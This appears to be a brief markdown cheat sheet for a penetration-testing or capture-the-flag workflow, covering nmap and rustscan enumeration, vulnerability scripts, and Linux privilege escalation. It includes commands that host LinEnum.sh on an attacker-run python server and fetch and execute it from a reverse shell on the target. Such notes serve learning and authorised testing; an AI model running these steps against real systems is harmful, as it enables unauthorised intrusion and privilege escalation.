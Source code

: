 ## Setting
1.export ip=10.10.10.10\
1.5 make directory for nmap result: mkdir nmap && cd nmap
## Ennumeration
2. `nmap -sC -sV -p- -Pn $ip --open -oN result   AND  rustscan -a $IP and rustscan -a $IP`.\ 
3. Check which ports are open. Take note of service running and versions(for searchsploit)\
4. Manual ennumeration. Visit the open ports to see if we can get initial foothold information. e.g anoymous login, default login,etc\
5. Check for vulnerabiltieis on specific ports using nmap script `nmap -p 80,445,139 --script=*vuln* $IP`
## Using searchsploit, payload, revershell 

## Getting a reverseshell(stable)

## Privilege Escalation
1.Automated scan for vulnerabilities or manual ennumeration.\
2.Create a directory and a a linEnum.sh file. Copy paste the content from https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh\
3.Host a python server `python3 -m http.server 8080` to transfer the linEum.sh\
4.From the reverse shell, `wget http://$myIP:8080/linEum.sh .` to recieve linEum.sh\
5.Give access. `chmod +x linEum.sh` and `./linEum` \
 
